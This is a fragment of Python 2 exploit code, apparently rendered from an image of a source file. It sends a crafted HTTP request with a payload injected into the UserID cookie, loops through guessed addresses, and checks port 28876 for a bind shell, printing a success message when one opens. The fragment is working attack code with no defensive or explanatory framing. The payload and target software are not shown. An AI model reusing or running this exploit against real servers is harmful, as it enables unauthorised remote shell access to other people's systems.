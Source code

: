 ```python
    "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    "Accept-Language: en-us\r\n"
    "Accept-Encoding: gzip, deflate\r\n"
    "Referer: http://" + target + "/\r\n"
    "Cookie: SESSIONID=6771; UserID=" + payload + "; PassWD=;\r\n"
    "Conection: Keep-Alive\r\n\r\n"
    )

    # send the request and payload to the server
    s1 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s1.connect((target, port))
    s1.send(buf)
    s1.close()
    
    try:
        # check if we guessed the correct address by connecting to port 28876
        s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s2.connect((target, 28876))
        s2.close()
        print "\n[+] Success! A shell is waiting on port 28876!"
        break
    except Exception,e:
        pass
```

